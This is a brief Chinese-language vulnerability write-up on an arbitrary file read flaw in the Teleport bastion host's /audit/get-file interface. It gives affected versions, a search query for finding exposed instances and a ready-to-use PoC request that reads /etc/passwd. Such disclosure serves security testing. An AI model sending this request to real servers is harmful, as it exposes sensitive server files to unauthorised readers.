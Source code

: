 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](images/202208241355622.png)

登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![image-20220824135554806](images/202208241355866.png)